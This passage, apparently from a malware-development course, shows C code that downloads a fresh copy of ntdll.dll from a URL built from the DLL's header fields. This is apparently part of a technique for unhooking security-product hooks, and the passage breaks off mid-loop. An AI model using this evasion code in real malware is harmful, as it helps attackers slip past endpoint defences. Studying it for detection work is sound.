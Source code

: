```c
	wsprintfW(szFullUrl, L"%s%0.8X%0.4X/ntdll.dll", FIXED_URL, pImgNtHdrs->FileHeader.TimeDateStamp, pImgNtHdrs->OptionalHeader.SizeOfImage);

	// 'GetPayloadFromUrl' is used to download a file from a webserver
	if (!GetPayloadFromUrl(szFullUrl, &pNtdllBuffer, &sNtdllSize))
		return FALSE;

	// 'sNtdllSize' will now contain the size of the downloaded ntdll.dll file
	// 'pNtdllBuffer' will now contain the base address of the downloaded ntdll.dll file

	*ppNtdllBuf = pNtdllBuffer;

	return TRUE;
}
```

Recall that `GetPayloadFromUrl` has three parameters, the download URL, and two output parameters that represent the base address and size of the downloaded file, respectively.

```c
BOOL GetPayloadFromUrl(IN LPCWSTR szUrl, OUT PVOID* pNtdllBuffer, OUT PSIZE_T sNtdllSize) {

	BOOL		bSTATE			= TRUE;

	HINTERNET	hInternet		= NULL,
			    hInternetFile	= NULL;

	DWORD		dwBytesRead		= NULL;
	
	SIZE_T		sSize			= NULL; 	 			// Used as the total size counter
	
	PBYTE		pBytes			= NULL,					// Used as the total heap buffer counter
			    pTmpBytes		= NULL;					// Used as the tmp buffer (of size 1024)

	// Opening the internet session handle, all arguments are NULL here since no proxy options are required
	hInternet = InternetOpenW(L"MalDevAcademy", NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// Opening the handle to the ntdll file using theURL
	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL) {
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// Allocating 1024 bytes to the temp buffer
	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
	if (pTmpBytes == NULL) {
		bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE) {

		// Reading 1024 bytes to the tmp buffer. The function will read less bytes in case the file is less than 1024 bytes.
		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			bSTATE = FALSE; goto _EndOfFunction;
		}
```